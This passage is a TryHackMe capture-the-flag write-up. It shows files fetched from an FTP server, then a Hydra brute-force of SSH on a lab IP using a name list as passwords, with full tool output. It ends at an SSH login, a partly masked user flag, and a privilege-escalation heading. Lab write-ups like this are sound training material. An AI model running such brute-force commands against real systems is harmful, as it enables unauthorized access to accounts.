 I downloaded this files from the FTP-Server to my Client. 

```sh
ftp> get locks.txt
ftp> get task.txt
```

Locks.txt is a file with a lot of Names in there. Looks like a directory.
Task.txt is a file where some task are descripted and it contains a username. 

As a hint from TryHackMe, we can Bruteforce ssh with the locks.txt file and the username. 

## 5 Bruteforce ssh

So lets fire up hydra and brutefoce the login to ssh:
```sh
hydra -t 16 -l l** -P locks.txt 10.10.149.155 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-23 20:31:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.149.155:22/
[22][ssh] host: 10.10.149.155   login: l**   password: R****************3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-23 20:31:48
```

Now we have a username and a login for ssh:

- Username: l**
- Password: R****************3

## 6 login with ssh 

Now lets get on the Machine with ssh:
```sh
ssh l**@10.10.149.155
``` 

On the User Desktop we found the user.txt file, whitch gave us the User-Flag, i used "cat" to display the content of the file. 

- User-flag: THM{C*************3}

## 7 Priv-Escalation
 
The last step is to get the Root-Flag. 
